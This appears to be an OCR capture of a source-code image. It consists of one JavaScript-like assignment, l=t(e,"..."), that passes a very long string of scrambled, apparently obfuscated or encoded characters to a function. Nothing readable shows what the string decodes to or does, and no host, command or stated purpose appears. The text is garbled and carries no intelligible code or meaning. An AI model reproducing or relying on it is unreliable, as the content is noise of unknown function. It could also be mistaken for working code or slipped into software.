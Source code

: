 l=t(e,"hRefNv!p&<zy+kicR!kvyiz&<v&!!!vPfzee&pzNpy!fvcN&ef+&+NNyf&R+Q!cVk&!&vNfveNRNv<N&ezRNcii!N&vcf+iNc!ZkiNfyekW+c!i8+&ezNNeyRvcy+e+v+N<k<7kyi!z+<!&A!&iI<eyRyN<<<u!<!#NyefR&y!z&y7+<z+&ypy!yvNfRkzReck<&yezc!v!kp<v!NpfNRp+vvvN<e!Rqczievvv<fpffReyNkek2yyzz&k&f+<y&<z&N!iv!+i+Nyv<<<sp+efzy<kp+!!v_f&zvyp<p&ypevccN=!RkcNNyNiR+?!c4k&fkvvecRpR_ic<Nziz<zepke!NQNffie&c<cv&+z!z<zN&i!fvzfyRkpv!NN!f*RzBep+!kN&NNf<dfR!vpNke&Rec+iNvyv!Npi<Rcy!cNkey<vipy&epvev<c<vp1vzNNe+<czz<<p!v<ciRyRpB&iykf+iyfzdipkzy&ze&+pNk&ikkvyfz4&cpfRze+NfRzpRp+Nee+R!ci!Npk!!vRf&Rvyzc<kiy+zfz?pypf}zNyepRNci<++&yvvz<gpp!yv!fRRz+:cek<k/zk!wiyiNy+z!<6p&kyifkip!<e&ypp!f0&evevRfc+kyk&ykzzcRip+ez+<!++iRzyzkpevi!RvvfpewipiZiy+iypf<ey:zcNki+!fNfvfR+Nifi&+!zkzz&vk<+<zz<Npi!!kvie+fyf<+!N!yNizv<kp!!dNzfezvzR<z&N!fvefvey+ekcky+fyi<k&kp!+RyR<ep+!!Niyi<k<!pcf!Npf<cv&k&NviN&feRzpc<+pfvyvpN RpRezz+p+Ryz<y&+pzycy0<6pz!NN+yi+cze<<&yRif%NpRipv!NN!f:RzIe!cpy!i7HRee<:Xvp!Te&Rec+iNvL!fN!efeNy!+&kcy!vivYv&pRvNffefRfc+k<&eyzzvNUvzvpMkRveRciick+yc!kckii+iy&ze&zckc+ipk!+yv+!i&vv+yfyv&N!iv&NAzv+e<<&Rpk!!fkf&kBikipiW+RyezAf!Np!fNRkicNcpkk+k+v<ccfip+Nzi<&&Bcfiykckfyz<ff+v<!NfyfeRe!pvpf&ee-+cN!i!fvNf!k+ii2vk+ffeN{Niik&+DeefcRv.+ic<ezNyy<ei<kiyzzN&ip!kycfkzpN<f<!pypeNyNeek,vczNpv!R&bei+kNN&N!fRevy+i+k<+!z<Ni&c!fvcc!f R+,fce+kyvys&ypNRzvyfpe+Czz++f+cy<zepR!kvvc+R+if!<!rfzeN/ic!v&pev<fcefR!yeyikvyi<c<peiNRf&<y&y!+v!N/e&&y<f&&pevefyepR<!p!Rf&ee-+cN!&NifyQ+k+c<%Ni++<yfz+Nevc!vNfekR<R>vpvze&Rec+iNp!vxvHefRcD<ivkiykze!eNReyRi_vikkk+!zc<Npc!pvNNfe<RRcz&Rp6vef+e!6ipi&z!pvcfceiIc!fvkfNRi%&cK!fNpvfNeepRNicic+fy!<<fivvvfvveiRvxpvRfyepRpc&ie++yNeyRcRNciyi+pyizRcfc&+Nzi<&&Ii++i+ppi<Izppie!R&eaf<R+cyiyky+NzRNz&e!k%&fveRRe1vi!+v+g!Riik&+ez+<!&Y!zNNpkeyRyc+i!k,y&epfe++8<cNkcyzzNcpic+&ye<+&Nc<c+iRk&yRz&<f!y!LciRyRv=iici0+iRf9fiN+iy&z8RfikiN<i<y&e!+vikcipyS<z&N!+k<kp+kzyvN!!pkvNc+iic!VccekR+RyR<zppe;v&Nfkic&cvzyyfyc<+&kpzvkly<y&z!+v!N?e&&<zN&c!yvifyfXpkp&Nif&eeSz&Rp<!zNyNRe<byy-iikf!ipz&ipy!iNefce!%vvpN&e&Rec+iNvfv+fkiece5&cvkf+&5kckki+&ye<z78R,cki&kezkv!vek<+yzz<Npi!!+ki<+p!Npzpk!fvfNyevp<!!NzfNRi(!!zpc!<v!NR&pp!v&Nee+RN&<&i!+vfv9eyef!<!yfzeNric!!evvekRcRp+&kN+&yv<f&vppeifzNfNTez0+ickykJypzp&z!z!fz<<zpz!NNif!z<yO&cp<!e;&RzfR#&vcv<fwRzLNi+Ncvpveizb!cciykpp+<<<<&pp<vzf<f!Ry{&NcfzeggzcNveNRee7R&<pivzNNeiR!<a&cppv!NpekkekkcziNyyzp<<ipk!y&ze&+pNizyey&pe&N<ype+<yy<z&N!iv!ypkvy+zf<T!<ReeNfyRe!<vpfzeNIic!!&!<vzcNRNkz!RvNfeR+7!iiv<!RvTffk!i+ickyyczyzyiyivy+z!<8p&iycpki++z<zop<Riv+fzeR+!kyifk1yz<k<Nkyk+z+<!&*!&+kiz+Rz<zv&i!v!_c&8ceRS&iN+c+!vipv&y!cvzfve+RkzizzfRfNHei+k!yivBezezckc<ifycy&<pp+f+Ry.vc<kz+zy!<k&ypqvpNfe+RzxfcRkvvy!ie+R!0xi&vQvfveeykZcyzNiRyyyN<v&!pNDzNpff8cc<iRk<+Nzf<fp+fpFeR!ev9<c&<NkeyB<pf+Nzv<NkepRk4zi!&kevRkc!i5+zyeeeeiRvczkc+p+ev&pvp+vyNffie!RfcvNRfzRec+i!+ifeNzefRfovii&z<vze<ipp!zvzNve+x<MRNpfpR&5ei+kNf!Nkf!Rky++iivy+RfDNiN+iy&zX%veec<iRkk+!zRN!NR+<y<<z&N!iv!+<+vyiz&&pp!v<Nc<v&p!!vXfzee&!<R&<!<v+f<kicZ0pkifve<K!cVkz+eeiRceN>Ncfyzkpzkve!Npyvez<zNpz!NNif!<yy&&cpppfv+ffei+!kei!+vye<kNeNivpN+f!&fpqvNfie&RHpv<s!vvefk<R&z!eN+f!Ri&z<Rp&pENcfieR+NiRiR+c+Rze&Rpi!fv}<p&p!&vef+eN<Yzp<e!pviRifvo+!fvpfNRio&cmvRRze&NfeyR!1v<!yNy+<k&ikpk&z&<ep+!Nkpkiykzp<{f!N&vcf!ki.{yezNy&yv<k<fpyvkvOf_RpaNc<<kekffcii&keyzfNe<Ri{;cykip!!&p_&<!+NyfyeyRNcR<zkeykv&pe!cevekf<R!3pcNkp&vRvRRi!k9yzzeezev)!ivk+yzzz&<&v!NH!eve&0k3NkkkNyc<p&+k<+czz<Npi!!k!iv+&zp<!f&NcvyNNffRic<c1kyeRRpcek++!ziRfe!{pcikkk<!zpv<RpyvfvRfeeN!<vyfzeN>ic!!<!R!sf<LRRpaOie+cypZ<I!kz+Nzi<!O<3&iyk&+kycvevipv!&NffeRvy&+N+k+zyN<!p<pRypzp&&pev+NNypykzk<ee+fivve+&R!zvpN<e&Rec+iNNyvkNpec_icpzrye+<zjcpi<+&ye<+&Nizg-ipk*+*ze&<p&v<vR<p&+!&vef+eN&p&c&zeeN!NveiscyN+=+k+!<kcviv+!y9<z&eifMrki+vy+p+<f!z+Ry3<ep+!!Ni+&y<yeN+vipvN+zf<+pNviN&fn<kz<<&pk!zNvNvR<^+ic<Nzyz<zy&N!yvkz<c&pz!NNif!yiyN<i&NpRee2RiyR&cRcR<eyvzR<!pN!yNefcep)fczkv+yyNzNpcpe!eZ!evRy/fzcykypyn<R&ep e&NefdkfkziR+Nyi<p<e&fN<N+fRe&mRc&ifyyy-pz&k!i!!fyicR+c<iNky&RzN&ypRvivpckevJfcviN&c<!<k&spzvfNifc.v-&ikiNykyN<cpp!+f!N<ezeecpNyfzR+_!cEk&NvNffpRycNiyk!ekRicii&keyzeiffesc<zeyv+<&k&cifkTyN<i&&p kR+!yf<+pkcRiC+ez+<!pikcczkvp+&izvp+kf+fzN&ip&!Ikf+k+!zp<&&!R+R&<cz+p_vzNNe+<<zy&+pivkNifNRpy+c<kf++zk<i&+pv_+f+ecR+yN+izy&R&<<vpe!fvIffk&tfcdkz+vzivvikifyiz&<epzizcfkip&&yz.f!vNv+fveeRRgtiffvff#!cakz+eeNNRRc_+ii<Nyc!&pN&y!p!NczRpRp}vcpk&ypyN<<&!+k+e<i&&pevzkR+<+Rz+&Npy!yNieikNiicziReyR+c+i!k.y&RzeiRy^ic<&z<+yf&ziRkgye<+&!!iiR+&yy!+pypfvz+fyv<Npi!&vVk++<zv<e&yp!vifceiRR!fvffNRi0&cVv!!+N<ffk&iz9Rk&ecRc3HizkNy+RkezRc)zc&&izvzpcyc!++y!zW&&cy?piik+y<yG&<ei!+NzfRk!iycfi.+zzkzNfkkvk&z!<0pz!e+v+k+fzv<+pvRif+NRffFyTe<zz&yf<i&ppz!<Nviz-!dfiziR+iyNcccektyzzN&+cecpcekipN<R&y&N!vv!NN&<p<vzNNeiR!&c<vpi!fciRQepcivvN&e!R}czieNvvyNNei2ccpce&&<zyR&&kc+cya<z&N!+k<kp+<y&vN!!pkvNzy<pp+!!vbf&zRzv<y&N+ckezU&zpNv++<ky+e<i&<&LvkvNfck!c!kk<NyRyE<p&ip&v<N?fp+ik+cpkR+eyfc<6p+zyN<i&!i&c+i<k+!ipi<N&RvcvNfkkNcNyz<e&N&+zv&&!pvpNpfUHky!iik<pN&i&yNRN<vvfeefR=cfzRfReREei+k!yi iN7izkNz!y&+cz!ckcU+iy&ze&zi+?fik+cyfv+!&pc!<Nyec&p&!v&Nee+RNp&&f!<v!N&fcksikikk++y!epipypNv+fke^Rk*!ivkvyiA<cckz+Nzi<!>&#Rc+kkke+Rve!e!pvfNiffexRRvRN<ee?+c!kifcv!fye<Ayyb+!+v+Rz+Nevc!zNRf&R&!k!vfie&ReczvyeNNfN!eyeecycekkyvzzN&!!!vvffv&<p&vzNNeiR!pz&Rezf+NkfpR!!y!!f+e!R.c&vz!pvRc!RfeRcvcVkvpe&c&cpk!cv%ece+RRciNvNvR!42izkefpvNeyRfKcc&+c+z!e&R&N!<!Pf<f3Rycfi&&!<R<i<Rpp!!yRzR&e!+v!fizzyp<if+vRv<N&eypkpvNif&eeMz!c&evcNzfieR+!kcizk&ypzv&y&!vyve<<zN!zvNfie!<<z:pc!<vec&bzeRc&zG+epN!!!i&p!zN<f<e<Reic<&kwyyv!p_!kefeyfpRNxvcekv&fRIcziN+iy&ze&+p!znNkfcRi-&cekzNRffiiciiykcyiz<<&pyikk<yiz&<epzifcekp++RR>vie++y!<iRRRNcfi+&!<e<y<&&e!NNpfc&v&!v!NqezRepf&z!cvkfciNcR.#ifk<+!z<<<&epR8&evevRfBvi!+v+ezp<Nky+iz+<!&H!&k!iRkRy<<<&R!kJiebfp%i!v!zf!e:9zcevppNNyffecR&iciz&epNp+<vp&vpNpfpe ckz!+Sykpfpy&p!NvvNeevkf!fvpfNRi=&cwvf!<vefNeRO<keiv++zi<<<3kp+&z&<ep+!Nke+c+pzk<vf!N&vcf!&kp+viN&feRz<c<+pfvyvpNxRy!cp&NWezRNc+!NpvvkN<iNc!c<ivkpp!!&pL&<!+NyfyeyRNcR<zkeykv&pe!cevekf<R!spcNkp&vRv#vi!k.yzzeWNRRczzP+RyvyW<yiRkpye<+&!!ikii?+fyzzz&cppRNeNfpeNcciyife<efcziN+iy!RiecceFf<iyq+p<iN!f&NiN<fyk&ikcRic&<R<ayizkNyiz!UiRRRNi<&iz&zy